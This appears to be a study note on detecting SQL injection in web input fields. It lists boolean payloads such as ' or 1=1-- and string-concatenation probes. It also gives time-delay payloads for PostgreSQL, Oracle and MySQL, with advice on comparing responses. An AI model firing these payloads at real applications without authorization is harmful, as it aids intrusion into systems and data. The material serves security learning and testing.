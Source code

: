 Submit the following payloads in the input fields. Identify if there is a notable difference from the original response. The (1=1) is equal to True, so the response size for these ones are usually larger than the (1=2) payload as that is equal to False.

- `' or 1=1--`
- `' or '1'='1`
- `' or 1=2--`
- `' or '1'='2`

Submit the following payloads in the input fields. Identify if there is a notable difference in the responses from (1=1) and (1=2). The key here is to determine how the application responds with True vs False statements.

For example, if the original response and the response from (1=1) payload are the same but when injecting the (1=2) payload there's a difference comparing to the original response, then the field may be susceptible to SQLi.

- `' and 1=1--`
- `' and '1'='1`
- `' and 1=2--`
- `' and '1'='2`

Another technique we can use to identify SQLi, is String Concatenation. For example, the original parameter/value may be as follows:

- `?category=Gifts`

Then, use string concatenation that will resolve to the original value:

- `?category=Gift'||'s`

Or use string concatenation that will not resolve to the original value:

- `?category=Gift'||'sss`

If the 1st and 2nd payloads result in the same response, but the 1st and 3rd don't, then the field may be vulnerable to SQLi. 

>[!info]
>Sometimes, the injected input may be reflected in the response. So, the response size may differ slightly even if they return the same data.

We can also inject Time-Delay payloads in the input fields. If the application has a notable delay in its response from the normal time, then the input field may be vulnerable to SQLi. For PostgreSQL:

```sql
; select pg_sleep(10)--
```

For Oracle DB:

```sql
'||(select dbms_pipe.receive_message(('a'),10) from dual)||'
```

For MySQL:

```sql
;select sleep(10)--
```
